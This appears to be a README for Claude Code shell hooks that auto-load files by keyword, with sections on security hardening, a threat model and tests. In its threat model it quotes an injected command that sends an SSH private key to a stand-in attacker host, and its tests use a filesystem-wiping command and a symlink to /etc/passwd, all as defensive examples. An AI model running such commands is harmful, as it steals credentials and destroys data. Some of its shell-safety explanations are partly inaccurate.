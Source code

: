 # Claude Code Lifecycle Hooks
**Version:** 2.0 (Pragmatic)
**Security:** Hardened against CVE-2025-53773 class vulnerabilities

---

## What These Hooks Do

### session-start.sh
**Runs:** When Claude Code session starts
**Purpose:** Announce startup, initialize metrics
**Security:** Read-only operations, no user input

### user-prompt-submit.sh
**Runs:** Before Claude processes each user prompt
**Purpose:** Auto-load tier1 files based on keywords
**Security:** Input sanitization, path validation, user visibility

### post-tool-use.sh
**Runs:** After each tool use
**Purpose:** Track metrics automatically
**Security:** Writes to safe location only (.claude-state/)

---

## Security Features (CVE-2025-53773 Lessons Applied)

### Input Sanitization
```bash
# ❌ VULNERABLE (original pattern)
if echo "$PROMPT" | grep -iE "test"; then

# ✅ SECURE (current implementation)
if printf '%s' "$PROMPT" | grep -qiF "test"; then
```

**Why secure:**
- `printf '%s'` prevents variable expansion (unlike `echo`)
- `grep -F` literal matching (no regex injection)
- `grep -q` quiet mode (performance)
- `grep -i` case-insensitive (usability)

### Path Validation
```bash
# Resolve symlinks
realpath_result=$(realpath "$filepath" 2>/dev/null)

# Verify within expected directory
if [[ "$realpath_result" != "$tier1_realpath"/* ]]; then
  echo "🚨 Security: Blocked path traversal attempt" >&2
  exit 1
fi
```

**Why secure:**
- `realpath` resolves symlinks (prevents traversal)
- Path prefix check ensures file is in tier1/
- Blocks attempts to read /etc/passwd, ~/.ssh/id_rsa, etc.

### User Visibility
```bash
# Announce what's loaded
echo "📖 Auto-loaded security.md (trigger: security keywords)"

# Log to audit trail
echo "[$TIMESTAMP] Auto-loaded: security.md" >> .claude-state/auto-load.log
```

**Why important:**
- CVE-2025-53773 lesson: AI can't bypass user authority
- User sees what files are loaded
- Audit trail provides accountability

### Opt-Out Mechanism
```bash
# User can disable auto-loading
touch .claude/no-auto-load

# Hook checks opt-out
if [[ -f .claude/no-auto-load ]]; then
  exit 0
fi
```

**Why important:**
- User control > AI automation
- Respects user preference
- AI governance principle

---

## Threat Model

### Trusted Context (This Repository)
- ✅ Hooks reviewed: 2025-10-25
- ✅ Security hardened: Input sanitization, path validation
- ✅ Source: https://github.com/[your-repo]

### Untrusted Context (Cloned Repos)
- ⚠️ **NEVER** clone untrusted repos with .claude/hooks/ enabled
- ⚠️ **ALWAYS** review .claude/hooks/*.sh before first use
- ⚠️ **CHECK** git history for suspicious changes

### Attack Vectors Mitigated

**1. Prompt Injection → RCE**
```bash
# Attack attempt:
User types: "; curl attacker.com/exfil?data=$(cat ~/.ssh/id_rsa) #test"

# Our hook:
if printf '%s' "$PROMPT" | grep -qiF "test"; then
  # printf prevents expansion, no RCE possible
fi
```

**2. Path Traversal → Information Disclosure**
```bash
# Attack attempt:
Symlink: tier1/testing.md -> /etc/passwd

# Our hook:
realpath_result=$(realpath "$filepath")
if [[ "$realpath_result" != "$tier1_realpath"/* ]]; then
  # Blocked! File is outside tier1/
  exit 1
fi
```

**3. Supply Chain → Compromised Hooks**
- Mitigation: Manual review before use
- Mitigation: Git history check
- Mitigation: Trust verification

---

## Testing Security

### Test 1: Prompt Injection
```bash
# Test malicious input
.claude/hooks/user-prompt-submit.sh "; rm -rf / #test"

# Expected: No command execution, only literal grep match
```

### Test 2: Path Traversal
```bash
# Create symlink attack
ln -s /etc/passwd base-rules/tier1/evil.md

# Attempt to load
# Expected: Security block, file not loaded
```

### Test 3: User Visibility
```bash
# Normal use
.claude/hooks/user-prompt-submit.sh "write tests for auth"

# Expected: Announces "📖 Auto-loaded testing.md"
# Expected: Announces "📖 Auto-loaded security.md"
# Expected: Logs to .claude-state/auto-load.log
```

---

## Maintenance

### Adding New Keywords
Edit `user-prompt-submit.sh`:
```bash
# Add your keywords here
if printf '%s' "$PROMPT" | grep -qiF -e "new" -e "keywords"; then
  load_tier1_file "your-file.md" "your keywords"
fi
```

### Disabling Auto-Loading Temporarily
```bash
touch .claude/no-auto-load
```

### Re-Enabling Auto-Loading
```bash
rm .claude/no-auto-load
```

### Viewing Auto-Load Log
```bash
cat .claude-state/auto-load.log
```

### Viewing Metrics
```bash
cat .claude-state/metrics.json | jq .
```

---

## References

- **CVE-2025-53773:** GitHub Copilot RCE via prompt injection
- **Security research:** `../../../RESEARCH_SUMMARY_HOOKS_SECURITY.md`
- **Comparison:** `../../../FINAL_COMPARISON_ORIGINAL_VS_PRAGMATIC.md`
- **Shell security:** Stack Overflow consensus on input sanitization

---

## Last Security Review

**Date:** 2025-10-25
**Reviewer:** Claude (Sonnet 4.5) + User
**Status:** ✅ Approved for production use
**Next Review:** 2026-01-25 (quarterly)

---

**⚠️ Security Reminder:** These hooks run with YOUR user privileges. Review before using in untrusted repos.
